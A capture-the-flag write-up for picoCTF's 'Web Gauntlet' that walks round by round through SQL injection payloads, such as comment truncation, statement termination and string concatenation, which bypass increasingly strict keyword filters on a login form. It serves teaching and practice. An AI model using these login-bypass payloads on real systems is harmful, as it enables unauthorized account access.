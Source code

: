 # Web Gauntlet

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2020 Mini-Competition, Web Exploitation
Author: MADSTACKS

Description:
Can you beat the filters? 
Log in as admin 
http://jupiter.challenges.picoctf.org:9683/ 
http://jupiter.challenges.picoctf.org:9683/filter.php

Hints:
1. You are not allowed to login with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters it may be hard to see the characters, 
   always (always) look at the raw hex in the response.
4. sqlite
5. If your cookie keeps getting reset, try using a private browser window
```
Challenge link: [https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

## Solution

Browsing to the site we see a login page with the heading `Round 1 / 5` and a Username field, a Password field and a `Sign In`-button.

The challenge description has already told us to expect [SQL injections](https://en.wikipedia.org/wiki/SQL_injection).

### Do a test login

To get more information I first tried to login with  
Username: `admin`  
Password: `admin123`

The following SQL statement was printed:  
`SELECT * FROM users WHERE username='admin' AND password='admin123'`

Checking `http://jupiter.challenges.picoctf.org:9683/filter.php` showed  
`Round1: or`  
So I get any `OR`-statements are filtered out.

### Round 1 of 5

I used the comment `--` to effectivly comment out the rest of the `SELECT`-statement.

Logging in with  
Username: `admin' --`  
Password: `whatever`  
returned the message `Congrats! On to round 2`.

Re-checking `http://jupiter.challenges.picoctf.org:9683/filter.php` showed  
`Round2: or and like = --`
So we cannot use `--` comments any more. Neither `OR`, `AND`, `LIKE` nor `=`.

Let's use a `/* this is a multi-line comment */` [SQL comment](https://www.w3schools.com/sql/sql_comments.asp) instead.

### Round 2 of 5

Logging in with  
Username: `admin'/*`  
Password: `whatever`  
returned the message `Congrats! On to round 3`.

The following SQL statement was also printed:  
`SELECT * FROM users WHERE username='admin'/*' AND password='whatever'`

Re-checking `http://jupiter.challenges.picoctf.org:9683/filter.php` showed  
`Round3: or and = like > < --`

It's impossible to see in a regular browser (use hex-output in Burp instead), but the space character is also included in the list of filters.

### Round 3 of 5

The above expression also works here but let's choose another one - the `;` character that ends statements.

Logging in with  
Username: `admin';`  
Password: `whatever`  
returned the message `Congrats! On to round 4`.

The following SQL statement was also printed:  
`SELECT * FROM users WHERE username='admin';' AND password='whatever'`

Re-checking `http://jupiter.challenges.picoctf.org:9683/filter.php` showed  
`Round4: or and = like > < -- admin`

As before the space character is also included in the list of filters.

### Round 4 of 5

We cannot use the string `admin` any more. But we can use concatenation (`||`) with one of the combinations of the following:
 * 'a'||'dmin'
 * 'ad'||'min'
 * 'adm'||'in'
 * 'admi'||'n'

I chose the last one.

Logging in with  
Username: `admi'||'n';`  
Password: `whatever`  
returned the message `Congrats! On to round 5`.

The following SQL statement was also printed:  
`SELECT * FROM users WHERE username='admi'||'n';' AND password='whatever'`

Re-checking `http://jupiter.challenges.picoctf.org:9683/filter.php` showed  
`Round5: or and = like > < -- union admin`

As before the space character is also included in the list of filters.

### Round 5 of 5

We can re-use the same credentials as in round 4 to get the message:  
`Congrats! You won! Check out filter.php`

### Get the flag

Access `http://jupiter.challenges.picoctf.org:9683/filter.php` a final time to get the PHP source code with the flag as a comment at the end.

For additional information, please see the references below.

## References

- [Burp suite - Homepage](https://portswigger.net/burp)
- [PortSwigger - SQL Injection: Bypassing Common Filters](https://portswigger.net/support/sql-injection-bypassing-common-filters)
- [W3Schools - SQL Comments](https://www.w3schools.com/sql/sql_comments.asp)
- [Wikipedia - SQL](https://en.wikipedia.org/wiki/SQL)
- [Wikipedia - SQL injection](https://en.wikipedia.org/wiki/SQL_injection)
